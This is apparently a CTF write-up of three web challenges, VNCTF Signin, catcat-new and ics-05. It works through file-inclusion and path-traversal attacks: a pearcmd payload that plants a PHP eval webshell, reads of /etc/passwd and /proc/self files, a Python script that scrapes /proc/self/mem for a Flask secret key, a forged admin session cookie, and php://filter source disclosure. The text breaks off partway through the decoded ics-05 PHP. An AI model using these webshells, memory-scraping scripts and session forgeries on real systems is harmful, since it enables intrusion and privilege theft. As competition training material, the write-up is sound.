## [VNCTF]Signin

The challenge filters `/`, `convert`, `base`, `text`, and `plain`, so you can only work in the current directory, and almost all PHP wrappers are unusable — except the data wrapper, which can be written as `data:,<?=exec(ls);`. I then found that the only file in the current directory is `index.php`.



Then I thought to try the pearcmd file-inclusion vulnerability, using config-create to create a file in the current directory, working around the problem that `/` can't be used to access other directories. So I crafted the payload:

```text
/index.php?file=pearcmd.php&+config-create+/&/<?=eval($_POST[1])?>+f.php
```

got



The write succeeded, and the include gives



I found that `<` was URL-encoded, so the include didn't recognize the PHP tag and printed it as text content. So I switched to capturing the request with Burp Suite and modifying the HTTP packet.



Now I could execute arbitrary commands.



The flag obtained is **VNCTF{a7785325-3ea7-4b75-814f-76a90543e6cf}**.



After the competition, reading the official writeup, I found you could just use a short tag to write the shell......



[VNCTF Official WriteUp (PDF download)](/files/VNCTF-Official-WriteUp.pdf)

## catcat-new

Poking around the home page, I found that clicking into an article adds `?file=……` to the URL, which naturally suggests a possible file-inclusion vulnerability. So I first looked at the environment, reading the user, the program path, and the environment variables, which are respectively:

```text
b'root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nutmp:x:100:406:utmp:/home/utmp:/bin/false\n'
```

```text
b'python\x00app.py\x00'
```

```text
b'HOSTNAME=f0ad8fc620b8\x00PYTHON_PIP_VERSION=21.2.4\x00SHLVL=1\x00HOME=/root\x00OLDPWD=/\x00GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D\x00PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/3cb8888cc2869620f57d5d2da64da38f516078c7/public/get-pip.py\x00PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin\x00LANG=C.UTF-8\x00PYTHON_VERSION=3.7.12\x00PYTHON_SETUPTOOLS_VERSION=57.5.0\x00PWD=/app\x00PYTHON_GET_PIP_SHA256=c518250e91a70d7b20cceb15272209a4ded2a0c263ae5776f129e0d9b5674309\x00'
```

I found that the backend is continuously running an `app.py` program; reading it gives the following:

```text
b'import os\nimport uuid\nfrom flask import Flask, request, session, render_template, Markup\nfrom cat import cat\n\nflag = ""\napp = Flask(\n __name__,\n static_url_path=\'/\', \n static_folder=\'static\' \n)\napp.config[\'SECRET_KEY\'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"\nif os.path.isfile("/flag"):\n flag = cat("/flag")\n os.remove("/flag")\n\n@app.route(\'/\', methods=[\'GET\'])\ndef index():\n detailtxt = os.listdir(\'./details/\')\n cats_list = []\n for i in detailtxt:\n cats_list.append(i[:i.index(\'.\')])\n \n return render_template("index.html", cats_list=cats_list, cat=cat)\n\n\n\n@app.route(\'/info\', methods=["GET", \'POST\'])\ndef info():\n filename = "./details/" + request.args.get(\'file\', "")\n start = request.args.get(\'start\', "0")\n end = request.args.get(\'end\', "0")\n name = request.args.get(\'file\', "")[:request.args.get(\'file\', "").index(\'.\')]\n \n return render_template("detail.html", catname=name, info=cat(filename, start, end))\n \n\n\n@app.route(\'/admin\', methods=["GET"])\ndef admin_can_list_root():\n if session.get(\'admin\') == 1:\n return flag\n else:\n session[\'admin\'] = 0\n return "NoNoNo"\n\n\n\nif __name__ == \'__main__\':\n app.run(host=\'0.0.0.0\', debug=False, port=5637)'
```

```python
s = """import os\\nimport uuid\\nfrom flask import Flask, request, session, render_template, Markup\\nfrom cat import cat\\n\\nflag = ""\\napp = Flask(\\n name,\\n static_url_path=\\'/\\', \\n static_folder=\\'static\\' \\n)\\napp.config[\\'SECRET_KEY\\'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"\\nif os.path.isfile("/flag"):\\n flag = cat("/flag")\\n os.remove("/flag")\\n\\n@app.route(\\'/\\', methods=[\\'GET\\'])\\ndef index():\\n detailtxt = os.listdir(\\'./details/\\')\\n cats_list = []\\n for i in detailtxt:\\n cats_list.append(i[:i.index(\\'.\\')])\\n \\n return render_template("index.html", cats_list=cats_list, cat=cat)\\n\\n\\n\\n@app.route(\\'/info\\', methods=["GET", \\'POST\\'])\\ndef info():\\n filename = "./details/" + request.args.get(\\'file\\', "")\\n start = request.args.get(\\'start\\', "0")\\n end = request.args.get(\\'end\\', "0")\\n name = request.args.get(\\'file\\', "")[:request.args.get(\\'file\\', "").index(\\'.\\')]\\n \\n return render_template("detail.html", catname=name, info=cat(filename, start, end))\\n \\n\\n\\n@app.route(\\'/admin\\', methods=["GET"])\\ndef admin_can_list_root():\\n if session.get(\\'admin\\') == 1:\\n return flag\\n else:\\n session[\\'admin\\'] = 0\\n return "NoNoNo"\\n\\n\\n\\nif name == \\'main\\':\\n app.run(host=\\'0.0.0.0\\', debug=False, port=5637)"""

print(s.replace("\\\\n","\\n"))
```

Cleaning it up with a script gives:

```python
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
 name,
 static_url_path='/', 
 static_folder='static' 
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
if os.path.isfile("/flag"):
 flag = cat("/flag")
 os.remove("/flag")

@app.route('/', methods=['GET'])
def index():
 detailtxt = os.listdir('./details/')
 cats_list = []
 for i in detailtxt:
 cats_list.append(i[:i.index('.')])
 
 return render_template("index.html", cats_list=cats_list, cat=cat)

@app.route('/info', methods=["GET", 'POST'])
def info():
 filename = "./details/" + request.args.get('file', "")
 start = request.args.get('start', "0")
 end = request.args.get('end', "0")
 name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
 
 return render_template("detail.html", catname=name, info=cat(filename, start, end))
 

@app.route('/admin', methods=["GET"])
def admin_can_list_root():
 if session.get('admin') == 1:
 return flag
 else:
 session['admin'] = 0
 return "NoNoNo"

if name == 'main':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

Analyzing it, we can see that to `return flag` we need to request `/admin` with GET while forging `session.get('admin') == 1`.

> ### Flask session forgery
>
> #### 1. What session does
>
> Since HTTP is a stateless protocol, the same user's first request and second request are completely unrelated. But most websites today have login functionality, which requires statefulness, and this is exactly what the session mechanism provides.
>
> In a server-side session design, the server stores each user's session data and sends the browser a cookie containing a session identifier. Later requests send that cookie back, letting the server retrieve the session. Flask's default design is different: it puts the signed session data itself in the cookie, as described below.
>
> #### 2. How Flask stores the session
>
> First option: stored directly in the client's cookies.
>
> Second option: stored on the server side, such as in redis, memcached, mysql, file, mongodb, etc. — this exists in the third-party flask-session library.
>
> Flask's default session cookie is signed, not encrypted: a visitor can read its contents, but cannot produce a valid modified cookie without the signing key.
>
> #### 3. Flask's session format
>
> A typical Flask session cookie contains URL-safe Base64-encoded serialized data (optionally compressed), a timestamp, and a signature.
>
> ```text
> eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Y48ncA.H99Th2w4FzzphEX8qAeiSPuUF_0
> session数据                                     时间戳       签名
> ```
>
> Timestamp: records when the cookie was signed. The accepted lifetime is configurable; Flask defaults to 31 days, while browser persistence also depends on session settings.
>
> Signature: created using the `Hmac` algorithm on the session data and timestamp plus the `secret_key`, used to ensure the data hasn't been modified.
>
> #### 4. Flask session forgery
>
> As we said above, the Flask session is created using the HMAC algorithm on the session data and timestamp plus the secret_key, so to forge a session we first need the secret_key, and once we have it, we can forge a session very easily.
>
> Session forgery tool: [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)
>
> [Learning Flask session forgery - GTL_JU - cnblogs](https://www.cnblogs.com/GTL-JU/p/16960460.html)

Learning session forgery requires the `secret_key`, and the value of the `secret_key` can be obtained from memory data.

> - **`/etc/passwd`**
>
> This file stores some basic information about all users on the Linux system, and only root can modify it. Its specific format is username:password:user ID:group ID:comment/description:home directory:login shell (with the colon as separator).
>
> - **`/proc/self`**
>
> `proc` is a pseudo-filesystem exposing process and kernel information. `/proc/PID` contains information about the process with that ID, while `/proc/self` refers to the process accessing it.
>
> - **`/proc/self/cmdline`**
>
> This file contains the command-line arguments the current process was executed with.
>
> - **`/proc/self/mem`**
>
> `/proc/self/mem` is the memory content of the current process; modifying this file is equivalent to directly modifying the current process's memory data. Note, however, that this file can't be read directly, because there are some unreadable unmapped regions in it. So it must be read together with the offset addresses in `/proc/self/maps`. Content is read using the start and end parameters and the offset address values.
>
> - **`/proc/self/maps`**
>
> `/proc/self/maps` contains the memory mapping of the current process; you can read this file to get the addresses of the memory data mappings.
>
> - **Flask sessions and Flask-Session**
>
> The signed cookie above is Flask's built-in session format. Flask-Session is a separate extension that stores session data on the server; its browser cookie normally carries an identifier. Signing a cookie is not the same as encrypting it.
>
> - **`/proc/self/environ`**
>
> The `/proc/self/environ` file contains the environment variables of the current process.
>
> - **`/proc/self/fd`**
>
> This is a directory whose files contain the content and paths of the files the current process has opened. This fd is quite important, because on Linux, if a program opens a file with `open()` but never closes it, then even after the file is deleted from the outside (e.g. `os.remove(SECRET_FILE)`), the file descriptor for it still exists under this process's fd directory in /proc, and through this file descriptor we can obtain the content of the deleted file. The numbered entries in `/proc/self/fd/` refer to open file descriptors; these numbers are not process IDs.
>
> In this challenge, Burp can be used to try the numeric file-descriptor entries when the relevant descriptor is unknown.
>
> - **`/proc/self/exe`**
>
> Gets the path of the current process's executable file.

The signing key is the missing piece. Flask uses itsdangerous to sign serialized session data and a timestamp; this is not simply `base64(data + signature)`. Its default digest is SHA-1, rather than a universal HMAC-SHA256 format. A compatible session tool handles the format for the target version.

```python
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
```

But you can't just find the `secret_key` in `/proc/self/mem` directly — it's like a huge binary file several GB in size, and you don't know where the `secret_key` is, which memory regions are readable, and which will crash. So you need to use `/proc/self/maps` to find which memory regions exist and which are readable/writable/executable.

For example, this challenge's maps contains a lot of entries like `7f9f31475000-7f9f314c7000 rw-p 00000000 00:00 0 \n`.

The first field, `7f9f31475000-7f9f314c7000`, is the start address - end address.

The second field, `rw-p`, means readable, writable, not executable, private mapping.

The third field, `00000000`, is the file offset; if this memory region is mapped from a disk file, it's the corresponding starting offset in the file.

The fourth field, `00:00`, is the device the file is on.

The fifth field, 0, is the inode. The inode is the unique identifier of each file in the filesystem; if this memory is mapped from a file, the inode number is shown here.

If it's a program or library, there may be a sixth field afterward giving the path, for example `/usr/bin/python3`.

So the script's approach here is to dig out the maps content, extract the start and end addresses of each memory region with the rw permission flag, then access the corresponding range in mem and check whether the content contains the fixed marker `*abcdefgh`; if so, that's the `secret_key`.

```python
import requests
import re

url = "http://61.147.171.105:55827/"

# 由/proc/self/maps获取可读写的内存地址，再根据这些地址读取/proc/self/mem来获取secret key
s_key = ""
bypass = "../.."
# 请求file路由进行读取
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\\\n")
for i in map_list:
    # 匹配指定格式的地址
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        #16是进制参数，int函数int(x, base)中x表示要转换的字符串，base表示要转换的字符串的进制，返回值是十进制整数
        print("Found rw addr:", start, "-", end)

        # 设置起始和结束位置并读取/proc/self/mem
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")
        # 用到了之前特定的SECRET_KEY格式。如果发现*abcdefgh存在其中，说明成功泄露secretkey
        if "*abcdefgh" in res.text:
            # 正则匹配，前面app.py脚本中app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"是生成一个随机32位16进制字符串去掉横线再加上*abcdefgh
            secret_key = re.findall("[a-z0-9]{32}\\*abcdefgh", res.text)
            if secret_key:
                print("Secret Key:", secret_key[0])
                s_key = secret_key[0]
                break
```

```text
Found rw addr: 94634183282688 - 94634183286784
Found rw addr: 94634213244928 - 94634213261312
Found rw addr: 140321701769216 - 140321703084032
Found rw addr: 140321703284736 - 140321703620608
Found rw addr: 140321703636992 - 140321704177664
Secret Key: 0ed845cd8a274498a326298fc8019391*abcdefgh
```

Got the `secret_key`, and now we can use the session forgery tool from earlier, [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager), to forge the session.

```text
PS C:\\CTF\\Flask-Session-Cookie-Manager> python flask_session_cookie_manager3.py encode -s "0ed845cd8a274498a326298fc8019391*abcdefgh" -t "{'admin':1}"
eyJhZG1pbiI6MX0.aZGGbg.sqtvkGbB5f94uOLXp-Ife-El9Dg
```



Got the flag: `catctf{Catch_the_c4t_HaHa}`.

## ics-05

Clicking around the interface, I found that only "Device Maintenance Center" is clickable, and after clicking in and poking around more, I found that clicking "Cloud Platform Device Maintenance Center" changes the URL to `…/index.php?page=index`, which suggests a file-inclusion vulnerability. I first tried arbitrary file reading, and found that `?page=../etc/passwd` did nothing, then tried a PHP wrapper, `/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`, first reading the source of `index.php`, which gives

```text
PD9waHAKZXJyb3JfcmVwb3J0aW5nKDApOwoKQHNlc3Npb25fc3RhcnQoKTsKcG9zaXhfc2V0dWlkKDEwMDApOwoKCj8+CjwhRE9DVFlQRSBIVE1MPgo8aHRtbD4KCjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgogICAgPG1ldGEgbmFtZT0icmVuZGVyZXIiIGNvbnRlbnQ9IndlYmtpdCI+CiAgICA8bWV0YSBodHRwLWVxdWl2PSJYLVVBLUNvbXBhdGlibGUiIGNvbnRlbnQ9IklFPWVkZ2UsY2hyb21lPTEiPgogICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xLCBtYXhpbXVtLXNjYWxlPTEiPgogICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJsYXl1aS9jc3MvbGF5dWkuY3NzIiBtZWRpYT0iYWxsIj4KICAgIDx0aXRsZT7orr7lpIfnu7TmiqTkuK3lv4M8L3RpdGxlPgogICAgPG1ldGEgY2hhcnNldD0idXRmLTgiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDx1bCBjbGFzcz0ibGF5dWktbmF2Ij4KICAgICAgICA8bGkgY2xhc3M9ImxheXVpLW5hdi1pdGVtIGxheXVpLXRoaXMiPjxhIGhyZWY9Ij9wYWdlPWluZGV4Ij7kupHlubPlj7Dorr7lpIfnu7TmiqTkuK3lv4M8L2E+PC9saT4KICAgIDwvdWw+CiAgICA8ZmllbGRzZXQgY2xhc3M9ImxheXVpLWVsZW0tZmllbGQgbGF5dWktZmllbGQtdGl0bGUiIHN0eWxlPSJtYXJnaW4tdG9wOiAzMHB4OyI+CiAgICAgICAgPGxlZ2VuZD7orr7lpIfliJfooag8L2xlZ2VuZD4KICAgIDwvZmllbGRzZXQ+CiAgICA8dGFibGUgY2xhc3M9ImxheXVpLWhpZGUiIGlkPSJ0ZXN0Ij48L3RhYmxlPgogICAgPHNjcmlwdCB0eXBlPSJ0ZXh0L2h0bWwiIGlkPSJzd2l0Y2hUcGwiPgogICAgICAgIDwhLS0g6L+Z6YeM55qEIGNoZWNrZWQg55qE54q25oCB5Y+q5piv5ryU56S6IC0tPgogICAgICAgIDxpbnB1dCB0eXBlPSJjaGVja2JveCIgbmFtZT0ic2V4IiB2YWx1ZT0ie3tkLmlkfX0iIGxheS1za2luPSJzd2l0Y2giIGxheS10ZXh0PSLlvIB85YWzIiBsYXktZmlsdGVyPSJjaGVja0RlbW8iIHt7IGQuaWQ9PTEgMDAwMyA/ICdjaGVja2VkJyA6ICcnIH19PgogICAgPC9zY3JpcHQ+CiAgICA8c2NyaXB0IHNyYz0ibGF5dWkvbGF5dWkuanMiIGNoYXJzZXQ9InV0Zi04Ij48L3NjcmlwdD4KICAgIDxzY3JpcHQ+CiAgICBsYXl1aS51c2UoJ3RhYmxlJywgZnVuY3Rpb24oKSB7CiAgICAgICAgdmFyIHRhYmxlID0gbGF5dWkudGFibGUsCiAgICAgICAgICAgIGZvcm0gPSBsYXl1aS5mb3JtOwoKICAgICAgICB0YWJsZS5yZW5kZXIoewogICAgICAgICAgICBlbGVtOiAnI3Rlc3QnLAogICAgICAgICAgICB1cmw6ICcvc29tcnRoaW5nLmpzb24nLAogICAgICAgICAgICBjZWxsTWluV2lkdGg6IDgwLAogICAgICAgICAgICBjb2xzOiBbCiAgICAgICAgICAgICAgICBbCiAgICAgICAgICAgICAgICAgICAgeyB0eXBlOiAnbnVtYmVycycgfSwKICAgICAgICAgICAgICAgICAgICAgeyB0eXBlOiAnY2hlY2tib3gnIH0sCiAgICAgICAgICAgICAgICAgICAgIHsgZmllbGQ6ICdpZCcsIHRpdGxlOiAnSUQnLCB3aWR0aDogMTAwLCB1bnJlc2l6ZTogdHJ1ZSwgc29ydDogdHJ1ZSB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnbmFtZScsIHRpdGxlOiAn6K6+5aSH5ZCNJywgdGVtcGxldDogJyNuYW1lVHBsJyB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnYXJlYScsIHRpdGxlOiAn5Yy65Z+fJyB9LAogICAgICAgICAgICAgICAgICAgICB7IGZpZWxkOiAnc3RhdHVzJywgdGl0bGU6ICfnu7TmiqTnirbmgIEnLCBtaW5XaWR0aDogMTIwLCBzb3J0OiB0cnVlIH0sCiAgICAgICAgICAgICAgICAgICAgIHsgZmllbGQ6ICdjaGVjaycsIHRpdGxlOiAn6K6+5aSH5byA5YWzJywgd2lkdGg6IDg1LCB0ZW1wbGV0OiAnI3N3aXRjaFRwbCcsIHVucmVzaXplOiB0cnVlIH0KICAgICAgICAgICAgICAgIF0KICAgICAgICAgICAgXSwKICAgICAgICAgICAgcGFnZTogdHJ1ZQogICAgICAgIH0pOwogICAgfSk7CiAgICA8L3NjcmlwdD4KICAgIDxzY3JpcHQ+CiAgICBsYXl1aS51c2UoJ2VsZW1lbnQnLCBmdW5jdGlvbigpIHsKICAgICAgICB2YXIgZWxlbWVudCA9IGxheXVpLmVsZW1lbnQ7IC8v5a+86Iiq55qEaG92ZXLmlYjmnpzjgIHkuoznuqfoj5zljZXnrYnlip/og73vvIzpnIDopoHkvp3otZZlbGVtZW505qih5Z2XCiAgICAgICAgLy/nm5HlkKzlr7zoiKrngrnlh7sKICAgICAgICBlbGVtZW50Lm9uKCduYXYoZGVtbyknLCBmdW5jdGlvbihlbGVtKSB7CiAgICAgICAgICAgIC8vY29uc29sZS5sb2coZWxlbSkKICAgICAgICAgICAgbGF5ZXIubXNnKGVsZW0udGV4dCgpKTsKICAgICAgICB9KTsKICAgIH0pOwogICAgPC9zY3JpcHQ+Cgo8P3BocAoKJHBhZ2UgPSAkX0dFVFtwYWdlXTsKCmlmIChpc3NldCgkcGFnZSkpIHsKCgoKaWYgKGN0eXBlX2FsbnVtKCRwYWdlKSkgewo/PgoKICAgIDxiciAvPjxiciAvPjxiciAvPjxiciAvPgogICAgPGRpdiBzdHlsZT0idGV4dC1hbGlnbjpjZW50ZXIiPgogICAgICAgIDxwIGNsYXNzPSJsZWFkIj48P3BocCBlY2hvICRwYWdlOyBkaWUoKTs/PjwvcD4KICAgIDxiciAvPjxiciAvPjxiciAvPjxiciAvPgoKPD9waHAKCn1lbHNlewoKPz4KICAgICAgICA8YnIgLz48YnIgLz48YnIgLz48YnIgLz4KICAgICAgICA8ZGl2IHN0eWxlPSJ0ZXh0LWFsaWduOmNlbnRlciI+CiAgICAgICAgICAgIDxwIGNsYXNzPSJsZWFkIj4KICAgICAgICAgICAgICAgIDw/cGhwCgogICAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJ2lucHV0JykgPiAwKSB7CiAgICAgICAgICAgICAgICAgICAgZGllKCk7CiAgICAgICAgICAgICAgICB9CgogICAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJ3RhOnRleHQnKSA+IDApIHsKICAgICAgICAgICAgICAgICAgICBkaWUoKTsKICAgICAgICAgICAgICAgIH0KCiAgICAgICAgICAgICAgICBpZiAoc3RycG9zKCRwYWdlLCAndGV4dCcpID4gMCkgewogICAgICAgICAgICAgICAgICAgIGRpZSgpOwogICAgICAgICAgICAgICAgfQoKICAgICAgICAgICAgICAgIGlmICgkcGFnZSA9PT0gJ2luZGV4LnBocCcpIHsKICAgICAgICAgICAgICAgICAgICBkaWUoJ09rJyk7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgaW5jbHVkZSgkcGFnZSk7CiAgICAgICAgICAgICAgICAgICAgZGllKCk7CiAgICAgICAgICAgICAgICA/PgogICAgICAgIDwvcD4KICAgICAgICA8YnIgLz48YnIgLz48YnIgLz48YnIgLz4KCjw/cGhwCn19CgoKLy/mlrnkvr/nmoTlrp7njrDovpPlhaXovpPlh7rnmoTlip/og70s5q2j5Zyo5byA5Y+R5Lit55qE5Yqf6IO977yM5Y+q6IO95YaF6YOo5Lq65ZGY5rWL6K+VCgppZiAoJF9TRVJWRVJbJ0hUVFBfWF9GT1JXQVJERURfRk9SJ10gPT09ICcxMjcuMC4wLjEnKSB7CgogICAgZWNobyAiPGJyID5XZWxjb21lIE15IEFkbWluICEgPGJyID4iOwoKICAgICRwYXR0ZXJuID0gJF9HRVRbcGF0XTsKICAgICRyZXBsYWNlbWVudCA9ICRfR0VUW3JlcF07CiAgICAkc3ViamVjdCA9ICRfR0VUW3N1Yl07CgogICAgaWYgKGlzc2V0KCRwYXR0ZXJuKSAmJiBpc3NldCgkcmVwbGFjZW1lbnQpICYmIGlzc2V0KCRzdWJqZWN0KSkgewogICAgICAgIHByZWdfcmVwbGFjZSgkcGF0dGVybiwgJHJlcGxhY2VtZW50LCAkc3ViamVjdCk7CiAgICB9ZWxzZXsKICAgICAgICBkaWUoKTsKICAgIH0KCn0KCgoKCgo/PgoKPC9ib2R5PgoKPC9odG1sPgo=
```

Decoding gives

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);

?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
